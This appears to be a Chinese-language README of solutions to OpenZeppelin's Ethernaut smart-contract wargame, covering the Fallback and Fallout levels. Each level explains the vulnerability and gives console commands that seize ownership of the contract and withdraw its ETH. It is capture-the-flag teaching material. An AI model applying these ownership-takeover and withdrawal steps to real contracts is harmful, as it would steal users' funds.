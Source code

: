# Ethernaut Solutions
## 项目介绍

[Ethernaut](https://ethernaut.openzeppelin.com/) 是 OpenZeppelin 开发的一个 Web3/Solidity 的游戏，通过闯关的方式来学习智能合约安全。每一关都是一个需要被攻破的智能合约，通过发现和利用合约中的漏洞来通过挑战。

## 难度：
- [Easy] - 基础概念和简单漏洞
- [Medium] - 需要理解合约机制和常见攻击方式
- [Hard] - 复杂的漏洞利用和高级概念

## 01. Fallback ✅ [Easy]

这关主要考察 fallback 函数的知识点：
- `receive()` 函数在合约接收 ETH 时被调用
- `fallback()` 函数在调用不存在的函数时被调用
- 通过发送少量 ETH 并调用 `contribute()` 函数来满足条件
- 最后通过 `receive()` 函数获取合约所有权

攻击步骤：
1. 调用 `contribute()` 并发送少量 ETH (<0.001)
```js
await contract.contribute({value: web3.utils.toWei('0.0001')});
```

2. 直接向合约发送 ETH 触发 `receive()`
```js
await contract.sendTransaction({value: web3.utils.toWei('0.0001')});
```

3. 调用 `withdraw()` 提取所有 ETH
```js
await contract.withdraw();
```

## 02. Fallout ✅ [Easy]

这关主要考察早期 Solidity 版本的构造函数问题：
- 老版本使用与合约同名的函数作为构造函数
- 如果函数名称与合约名不完全一致,就变成了普通函数
- 攻击者可以直接调用该函数获取所有权

攻击步骤：
1. 直接调用 `Fal1out()` 函数获得合约所有权
```js
await contract.Fal1out();
```

2. 调用 `collectAllocations()` 提取资金
```js
await contract.collectAllocations();
```
